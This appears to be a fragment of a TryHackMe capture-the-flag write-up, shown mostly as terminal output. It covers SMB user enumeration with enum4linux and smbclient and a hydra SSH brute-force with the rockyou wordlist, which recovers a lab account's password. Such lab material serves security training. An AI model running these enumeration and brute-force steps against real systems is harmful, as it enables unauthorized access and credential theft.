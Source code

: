 ```
[I] Found new SID: S-1-5-32
[+] Enumerating users using SID S-1-5-32 and logon username '', password ''
S-1-5-32-544 BUILTIN\Administrators (Local Group)
S-1-5-32-545 BUILTIN\Users (Local Group)
S-1-5-32-546 BUILTIN\Guests (Local Group)
S-1-5-32-547 BUILTIN\Power Users (Local Group)
S-1-5-32-548 BUILTIN\Account Operators (Local Group)
S-1-5-32-549 BUILTIN\Server Operators (Local Group)
S-1-5-32-550 BUILTIN\Print Operators (Local Group)
[+] Enumerating users using SID S-1-5-21-2007993849-1719925537-2372789573 and logon username '', password ''
S-1-5-21-2007993849-1719925537-2372789573-501 THM_EXPLOIT\nobody (Local User)
S-1-5-21-2007993849-1719925537-2372789573-513 THM_EXPLOIT\None (Domain Group)
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\kel (Local User)
S-1-22-1-1001 Unix User\des (Local User)
S-1-22-1-1002 Unix User\tryhackme (Local User)
S-1-22-1-1003 Unix User\noentry (Local User)
enum4linux complete on Mon Oct 12 17:53:18 2020
```

- kel
- des
- tryhackme
- noentry

```
kali@kali:~/CTFs/tryhackme/Binex$ smbclient -L 10.10.45.117 -U anomymous
Enter WORKGROUP\anomymous's password:

        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (THM_exploit server (Samba, Ubuntu))
```

```
kali@kali:~/CTFs/tryhackme/Binex$ hydra -l tryhackme -P /usr/share/wordlists/rockyou.txt ssh://10.10.45.117
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-10-12 17:55:38
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.45.117:22/
[STATUS] 178.00 tries/min, 178 tries in 00:01h, 14344223 to do in 1343:06h, 16 active
[STATUS] 134.33 tries/min, 403 tries in 00:03h, 14343998 to do in 1779:40h, 16 active
[STATUS] 116.86 tries/min, 818 tries in 00:07h, 14343583 to do in 2045:45h, 16 active
[22][ssh] host: 10.10.45.117   login: tryhackme   password: thebest
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-10-12 18:03:00
```
